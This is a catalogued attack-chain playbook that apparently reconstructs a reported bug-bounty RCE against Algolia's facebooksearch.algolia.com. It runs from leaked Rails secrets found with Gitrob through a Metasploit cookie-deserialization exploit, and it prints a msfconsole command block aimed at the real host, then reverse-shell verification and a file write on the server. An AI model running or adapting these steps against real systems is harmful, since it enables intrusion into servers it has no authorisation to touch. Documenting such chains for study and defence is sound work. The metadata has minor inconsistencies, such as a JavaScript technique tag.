

---
tags:
  - rce
  - rails
  - deserialization
  - secret-leak
  - github
  - metasploit
type: attack_chain
tools:
  - '[[tools/Gitrob]]'
  - '[[tools/Metasploit-Framework]]'
tactics:
  - '[[Reconnaissance]]'
  - '[[Execution]]'
verified: false
platforms:
  - Web
  - Linux
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Scan-GitHub-Repos-for-Secrets-with-Gitrob]]'
  - '[[procedures/Retrieve-Leaked-Session-Secret-from-Repository]]'
  - '[[procedures/Patch-Metasploit-Module-for-Rails-Cookie-Format]]'
  - '[[procedures/Configure-and-Execute-Rails-Deserialization-Exploit]]'
  - '[[procedures/Verify-Access-via-Reverse-Shell]]'
  - '[[procedures/Create-Proof-of-Concept-File-on-Server]]'
step_count: 6
techniques:
  - '[[Credentials In Files]]'
  - '[[Exploit Public-Facing Application]]'
  - '[[JavaScript]]'
updated_at: '2025-12-14T17:23:54.968Z'
description: >-
  Attack chain exploiting a leaked Rails session secret from a public GitHub
  repository to achieve remote code execution on a production Rails application
  using CookieStore deserialization.
skill_level: intermediate
impact_level: high
id: 2297fb2a-dae5-46d8-ad7d-968e05ed8b51
validated: true
mitre_tactics:
  - '[[Reconnaissance]]'
  - '[[Execution]]'
mitre_techniques:
  - '[[Credentials In Files]]'
  - '[[Exploit Public-Facing Application]]'
  - '[[JavaScript]]'
---
# Rails Session Secret Leak Leading to RCE via Cookie Deserialization

Multi-stage attack chain demonstrating the exploitation of a leaked Rails session secret committed to a public GitHub repository, enabling remote code execution (RCE) on Algolia's facebooksearch.algolia.com application through CookieStore deserialization.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 6 |
| Execution Time | ~30 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/Gitrob]]
- [[tools/Metasploit-Framework]]

### Target Environment

- Ruby on Rails 4 application using CookieStore for sessions
- Public GitHub repositories associated with the target organization
- Network access to the target web app (facebooksearch.algolia.com)

### Initial Access Requirements

- No prior credentials needed; relies on publicly leaked secret
- Internet access for GitHub scanning and exploit delivery

## Detailed Attack Procedures

### Step 1: Scan GitHub Repositories for Secrets
procedure: [[procedures/Scan-GitHub-Repos-for-Secrets-with-Gitrob]]

**Objective**: Identify leaked sensitive information, such as Rails session secrets, in public repositories.

**Instructions**: Install and run Gitrob to scan the target's organization repositories.

**Expected Output**: Report of interesting files, including secret_token.rb with secret_key_base.

**Success Indicators**:
- Detection of files containing potential secrets
- Identification of Rails configuration files

### Step 2: Retrieve the Leaked Session Secret
procedure: [[procedures/Retrieve-Leaked-Session-Secret-from-Repository]]

**Objective**: Extract the exact session secret value from the identified commit.

**Instructions**: Access the specific commit URL and copy the secret_key_base value.

**Expected Output**: A 128-character hexadecimal string representing the secret.

**Success Indicators**:
- Secret retrieved without errors
- Value matches expected format for Rails secret_key_base

### Step 3: Patch Metasploit Module for Cookie Format
procedure: [[procedures/Patch-Metasploit-Module-for-Rails-Cookie-Format]]

**Objective**: Modify the exploit module to handle the target's specific session cookie format.

**Instructions**: Edit the regex in the Metasploit module to include hyphen support.

**Expected Output**: Updated module that parses cookies correctly.

**Success Indicators**:
- Regex modification applied successfully
- Module loads without syntax errors

### Step 4: Configure and Execute the Exploit
procedure: [[procedures/Configure-and-Execute-Rails-Deserialization-Exploit]]

**Objective**: Craft and send a malicious session cookie to trigger deserialization and RCE.

**Instructions**: Use [[commands/use-exploit-multi-http-rails-secret-deserialization]] in Metasploit, set parameters with [[commands/set-secret-in-metasploit]], [[commands/set-rhost-in-metasploit]], [[commands/set-railsversion-in-metasploit]], [[commands/set-targeturi-in-metasploit]], then run [[commands/exploit-in-metasploit]].

```msfconsole
use exploit/multi/http/rails_secret_deserialization
set secret "<leaked-secret>"
set rhost facebooksearch.algolia.com
set railsversion 4
set targeturi /auth/facebook
exploit
```

**Expected Output**: Reverse shell established on the target server.

**Success Indicators**:
- Meterpreter or shell session opened
- Connection to target successful

### Step 5: Verify Access via Reverse Shell
procedure: [[procedures/Verify-Access-via-Reverse-Shell]]

**Objective**: Confirm privileges and control over the compromised server.

**Instructions**: Run [[commands/id-shell-command]] in the shell.

```bash
id
```

**Expected Output**: User details, e.g., uid=1000(prod) gid=1000(prod).

**Success Indicators**:
- Command executes without errors
- User context shows production access

### Step 6: Create Proof-of-Concept File on Server
procedure: [[procedures/Create-Proof-of-Concept-File-on-Server]]

**Objective**: Demonstrate file write capability and persistence.

**Instructions**: Use shell to write a file in the public directory.

**Expected Output**: File created and accessible via HTTP.

**Success Indicators**:
- File written successfully
- Accessible at http://facebooksearch.algolia.com/hackerone.txt

## Attack Chain Summary

### Key Achievements

1. Discovered leaked Rails session secret in public GitHub repo
2. Achieved RCE via deserialization of malicious cookie
3. Gained shell access as production user and wrote files to server

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Credentials In Files]] Credentials In Files
- [[Exploit Public-Facing Application]] Exploit Public-Facing Application
- [[JavaScript]] JavaScript (adapted for Ruby deserialization)

### MITRE ATT&CK Tactics

- [[Reconnaissance]] Reconnaissance
- [[Execution]] Execution

---

*Last updated: 2023-10-01T00:00:00Z*
